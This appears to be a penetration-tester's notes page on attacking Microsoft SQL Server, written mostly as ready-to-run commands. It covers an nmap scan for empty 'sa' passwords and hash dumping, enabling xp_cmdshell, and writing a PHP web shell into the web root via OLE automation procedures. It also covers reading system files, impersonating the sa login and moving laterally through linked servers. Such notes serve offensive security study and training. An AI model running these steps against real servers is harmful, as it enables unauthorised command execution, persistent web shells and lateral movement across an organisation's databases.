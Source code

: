 Nmap:
```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

```SQL
SELECT name FROM sys.databases
GO
```


# Dangerous Settings
- MSSQL clients not using encryption to connect to the MSSQL server.
- The use of self-signed certificates when encryption is being used. Possible to spoof self-signed certificates.
- The use of [named pipes](https://docs.microsoft.com/en-us/sql/tools/configuration-manager/named-pipes-properties?view=sql-server-ver15).
- Weak & default `sa` credentials. Admins may forget to disable this account.
## XP_CMDSHELL
If we have appropriate privileges, we can enable `xp_cmdshell`:
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO
-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  
-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). Or additional functionalities like the `xp_regwrite` command, used to elevate privileges by creating new entries in the Windows registry.
# Write Local Files
>Required Admin privileges to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option)
## 1. Enable Ole Automation Procedures
```mysql
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
## 2. Create File
```mysql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
# Read File
>Same read permission as the system account.
```sql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
# Capture Service Hash
# Impersonate Users
>Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned.
## Identify Users to Impersonate
```mysql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
>**Note:** If a user isn't sysadmin, they still might be able to access other databases or linked servers
## Verify Current User/Role
```mysql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
If we see `0` we do not have sysadmin role, but can still impersonate `sa` user.
## Impersonate User
```mysql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
We should see `1` for a successful transaction
>**Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If the impersonated user doesn't have access to the DB you are connecting to, it will present an error. Do `USE master`.

# Linked Servers
If an SQL server has linked server configured, we could move laterally to that database server. If it is configured using credentials from remote server, and those credentials have sysadmin privileges, we could execute commands on that remote SQL instance.
## Identify Linked Servers
```mysql
1> SELECT srvname, isremote FROM sysservers
2> GO
```
`1` means a remote server, `0` means a linked server.
## Identify User
Identify the user used for the connection and its privileges. The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement sends pass-through commands to linked servers.
```mysql
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<IP>\<LINKED-SERVER>]
2> GO

------------------------------ ------------------------------ 
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote
```
>**Note:** If we need to use quotes in our query to the linked server, use single double quotes to escape the single quote. To run multiples commands at once, divide them up with a semi colon (;)
# Clients
Clients to access MSSQL:
### Linux
- [[Impacket#MSSQLclient|Impacket-MSSQLclient]]
- [[sqsh]]
- [[dbeaver]]
- [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)
### Windows
- [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)
- [SQL Server PowerShell](https://docs.microsoft.com/en-us/sql/powershell/sql-server-powershell?view=sql-server-ver15)
- [HeidiSQL](https://www.heidisql.com/)
- [SQLPro](https://www.macsqlclient.com/)
- [[sqlcmd]]



